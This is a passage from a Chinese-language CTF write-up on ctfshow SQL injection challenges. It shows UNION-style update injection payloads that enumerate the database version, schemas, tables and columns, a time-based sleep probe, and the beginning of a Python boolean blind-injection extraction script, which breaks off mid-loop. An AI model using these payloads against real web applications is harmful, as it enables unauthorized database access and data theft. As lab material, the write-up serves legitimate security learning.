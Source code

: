 ![2321](/medias/show-sql/2321.png)

下面就和上题一样做就可以

```sql
# 测试
username=10.3.18-MariaDB&password=1'),username=(select version());#
# 查库
username=10.3.18-MariaDB&password=1'),username=(select group_concat(schema_name) from information_schema.schemata);#
# 查表
username=information_schema,test,mysql,performance_schema,ctfshow_web&password=1'),username=(select group_concat(table_name) from information_schema.tables where table_schema=database());#
# 查字段 flag在flagaa表的flagass字段
username=banlist,ctfshow_user,flaga
&password=1'),username=(select group_concat(column_name) from information_schema.columns where table_schema=database());#
# 查flag
username=id,char,id,username,pass,id,flagass,info&password=1'),username=(select group_concat(flagass) from flagaa);#
```

## web 233 布尔盲注

这题目怎么又回到之前的版本了。直接狠狠地sql注入(注不进去，题目存在过滤)

前面的payload注入没有变化，可能是对`password`做了过滤，试试`username`处能不能时间盲注，页面可以执行`username=ctfshow' and if(1=1,sleep(3),0)#&password=1`。看大佬脚本根据update是否修改成功的回显，使用了布尔盲注

```python

import requests
url='http://398f1aa4-200c-4594-af45-5d7b0a59f091.challenge.ctf.show/api/'
flag=''
i=0
j = 0
while True:
    head=1
    tail=127
    i+=1
    while head<tail:
        j+=1
        mid=(head+tail)>>1
        # 爆表 flag233333
        # payload=f"ctfshow' and if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{i},1))>{mid},1,0)#"
```